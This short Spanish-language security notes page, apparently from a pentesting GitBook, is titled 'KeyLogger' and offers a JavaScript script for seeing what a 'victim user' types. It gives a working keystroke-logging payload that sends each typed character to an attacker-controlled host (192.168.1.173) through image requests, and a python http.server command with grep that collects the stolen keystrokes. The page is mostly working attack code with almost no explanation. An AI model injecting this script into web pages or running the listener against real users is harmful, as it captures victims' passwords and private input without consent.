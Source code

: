 # KeyLogger

Script en js para ver que esta tecleando el usuario victima

```
python3 -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'
```

```
<script>
        var k = "";
        document.onkeypress = function(e){
                e = e || window.event;
                k += e.key;
                var i = new Image();
                i.src = "http://192.168.1.173/" + k;
        };
</script>
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (2).png" alt="" width="487"><figcaption></figcaption></figure>

</div>
